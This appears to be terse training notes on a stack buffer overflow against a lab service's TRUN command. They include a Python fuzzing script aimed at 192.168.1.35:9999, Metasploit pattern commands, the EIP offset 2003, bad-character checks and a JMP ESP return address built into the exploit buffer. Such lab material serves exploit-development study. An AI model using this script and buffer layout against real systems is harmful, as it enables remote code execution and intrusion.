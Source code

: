 # Buf Overflow

![](../.gitbook/assets/image%20%282%29.png)

![](../.gitbook/assets/image%20%283%29.png)

![](../.gitbook/assets/image%20%284%29.png)



### FUZZING

```text
    #!/usr/bin/python
    
    import sys, socket 
    from time import sleep
    
    buffer = "A" * 100
    
    while True: 
        try: 
            payload = "TRUN /.:/" + buffer
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect(('192.168.1.35',9999))
            print ("[+] Sending the payload...\n" + str(len(buffer)))
            s.send((payload.encode()))
            s.close()
            sleep(1)
            buffer = buffer + "A"*100
        except:
            print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
            sys.exit()
```

/usr/share/metasploit-framework/tools/exploit/pattern\_create.rb -l 3000  
/usr/share/metasploit-framework/tools/exploit/pattern\_offset.rb -l 3000 -q 386F4337   
where q is EIP value -&gt; we will get offset  
OFFSET = 2003  
buffer = "A" \* 2003 + "B" \* 4  
EIP will be overwritten with 424242.  
  
badchars  
buffer = "A" \* 2003 + "B" \* 4 + badchars  
find out of place chars  
  
0x625011af JMP ESP - FFE4  
buffer = "A" \* 2003 + "\xaf\x11\x50\x62" + overflow







